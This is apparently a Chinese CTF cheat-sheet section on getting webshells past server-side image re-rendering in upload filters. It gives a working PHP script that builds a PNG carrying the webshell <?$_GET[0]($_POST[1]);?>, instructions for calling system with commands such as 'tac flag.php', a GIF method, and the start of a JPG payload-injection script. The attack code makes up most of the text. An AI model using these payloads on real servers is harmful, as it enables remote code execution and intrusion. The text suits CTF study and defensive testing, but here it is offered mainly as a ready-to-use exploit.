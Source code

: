 ### 二次渲染
#### GIF二次渲染
gif比较简单，可以先传正常gif图上去后再下载下来后比较两张图的数据，没有改变的地方加上木马语句即可。
#### PNG二次渲染
使用方法：php 脚本.php
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img,'1.png');  //要修改的图片的路径
 
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
//imagepng($img,'1.png');  要修改的图片的路径,1.png是使用的文件，可以不存在
//会在目录下自动创建一个1.png图片
//图片脚本内容：$_GET[0]($_POST[1]);
//使用方法：例子：查看图片，get传入0=system；post传入tac flag.php
 
?>
------------------------------------
           创建1.png图片成功！      
------------------------------------
```
#### JPG二次渲染
> 建议先传正常jpg然后让靶机渲染一次后再下载下来进行脚本添加木马
使用方法：php 脚本.php 需要操作的图片.jpg

```php
<?php
    /*
    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.
    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>
    In case of successful injection you will get a specially crafted image, which should be uploaded again.
    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
```